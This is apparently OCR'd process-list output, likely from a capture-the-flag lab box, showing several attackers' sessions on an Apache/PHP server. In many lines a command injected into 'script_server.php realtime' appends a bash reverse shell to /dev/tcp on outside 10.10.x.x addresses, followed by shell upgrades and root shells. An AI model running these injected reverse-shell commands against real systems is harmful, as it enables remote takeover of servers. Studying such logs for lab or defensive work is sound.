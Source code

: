 www-data    2413  0.0  0.0   2476   512 ?        S    15:44   0:00  _ sh -c /usr/local/bin/php -q /var/www/html/script_server.php realtime ;bash -c 'bash -i >& /dev/tcp/10.10.14.83/4444 0>&1'
www-data    2415  0.0  0.0   3892  2828 ?        S    15:44   0:00      _ bash -c bash -i >& /dev/tcp/10.10.14.83/4444 0>&1
www-data    2416  0.0  0.0   4156  3300 ?        S    15:44   0:00          _ bash -i
www-data    2700  0.0  0.0   2440   652 ?        S    15:51   0:00              _ script /dev/null -qc /bin/bash
www-data    2701  0.0  0.0   2476   572 pts/3    Ss   15:51   0:00                  _ sh -c /bin/bash
www-data    2702  0.0  0.0   4156  3304 pts/3    S    15:51   0:00                      _ /bin/bash
www-data    3004  0.0  0.0   4156  3312 pts/3    S    15:58   0:00                          _ /bin/bash
root        3035  0.0  0.0   4156  3320 pts/3    S+   15:59   0:00                              _ /bin/bash
www-data    2103  0.3  0.6  87084 26172 ?        S    15:29   0:44 apache2 -DFOREGROUND
www-data    2275  0.2  0.6  86956 24696 ?        S    15:37   0:30 apache2 -DFOREGROUND
www-data   39152  0.0  0.0   2476   568 ?        S    17:00   0:00  _ sh -c /usr/local/bin/php -q /var/www/html/script_server.php realtime ;bash -c 'bash -i >& /dev/tcp/10.10.16.46/9001 0>&1'
www-data   39154  0.0  0.0   3892  2956 ?        S    17:00   0:00      _ bash -c bash -i >& /dev/tcp/10.10.16.46/9001 0>&1
www-data   39155  0.0  0.0   4156  3368 ?        S    17:00   0:00          _ bash -i
www-data   39849  0.0  0.0   2440   712 ?        S    17:17   0:00              _ script -qc /bin/bash /dev/null
www-data   39850  0.0  0.0   2476   512 pts/4    Ss   17:17   0:00                  _ sh -c /bin/bash
www-data   39851  0.0  0.0   4156  3408 pts/4    S+   17:17   0:00                      _ /bin/bash
www-data    3032  0.0  0.6  86956 24584 ?        S    15:58   0:08 apache2 -DFOREGROUND
www-data   19615  0.0  0.0   2476   516 ?        S    16:28   0:00  _ sh -c /usr/local/bin/php -q /var/www/html/script_server.php realtime ;bash -c 'bash -i >& /dev/tcp/10.10.16.11/9000 0>&1'
www-data   19617  0.0  0.0   3892  2800 ?        S    16:28   0:00      _ bash -c bash -i >& /dev/tcp/10.10.16.11/9000 0>&1
www-data   19618  0.0  0.0   4156  3324 ?        S    16:28   0:00          _ bash -i
root       56655  0.0  0.0   3892  2996 ?        S    17:33   0:00              _ /bin/bash
www-data    3203  0.1  0.6  87084 26172 ?        S    16:05   0:16 apache2 -DFOREGROUND
www-data   93737  0.0  0.0   2476   576 ?        S    19:11   0:00  _ sh -c /usr/local/bin/php -q /var/www/html/script_server.php realtime ;bash -c 'bash -i >& /dev/tcp/10.10.14.177/443 0>&1'
www-data   93739  0.0  0.0   3892  2820 ?        S    19:11   0:00      _ bash -c bash -i >& /dev/tcp/10.10.14.177/443 0>&1
www-data   93740  0.0  0.0   4156  3324 ?        S    19:11   0:00          _ bash -i
www-data   93752  0.3  0.0   3328  2460 ?        S    19:11   0:00              _ /bin/sh ./linpeas.sh
www-data   96425  0.0  0.0   3328   944 ?        S    19:12   0:00                  _ /bin/sh ./linpeas.sh
www-data   96429  0.0  0.0   6896  2996 ?        R    19:12   0:00                  |   _ ps fauxwww
www-data   96428  0.0  0.0   3328   944 ?        S    19:12   0:00                  _ /bin/sh ./linpeas.sh
www-data   19493  0.1  0.4  80916 19988 ?        S    16:22   0:13 apache2 -DFOREGROUND
www-data   19576  0.1  0.5  85036 23228 ?        S    16:27   0:13 apache2 -DFOREGROUND
www-data   77147  0.1  0.6  86956 24488 ?        S    18:08   0:07 apache2 -DFOREGROUND
www-data   93531  0.0  0.0   2476   516 ?        S    18:54   0:00  _ sh -c /usr/local/bin/php -q /var/www/html/script_server.php realtime ;bash -c 'bash -i >& /dev/tcp/10.10.16.83/4444 0>&1'
www-data   93533  0.0  0.0   3892  2764 ?        S    18:54   0:00      _ bash -c bash -i >& /dev/tcp/10.10.16.83/4444 0>&1
www-data   93534  0.0  0.0   4156  3448 ?        S    18:54   0:00          _ bash -i
root       93538  0.0  0.0   3892  2984 ?        S    18:54   0:00              _ /bin/bash
www-data   93385  0.2  0.4  80860 18348 ?        S    18:29   0:06 apache2 -DFOREGROUND
www-data   93388  0.1  0.6  86996 24304 ?        S    18:34   0:03 apache2 -DFOREGROUND
www-data   93699  0.0  0.0   2476   576 ?        S    19:10   0:00  _ sh -c /usr/local/bin/php -q /var/www/html/script_server.php realtime ;bash -c 'bash -i >& /dev/tcp/10.10.14.178/80 0>&1'
www-data   93701  0.0  0.0   3892  2920 ?        S    19:10   0:00      _ bash -c bash -i >& /dev/tcp/10.10.14.178/80 0>&1
www-data   93702  0.0  0.0   4156  3232 ?        S    19:10   0:00          _ bash -i
root       93707  0.0  0.0   3892  3004 ?        S    19:10   0:00              _ /bin/bash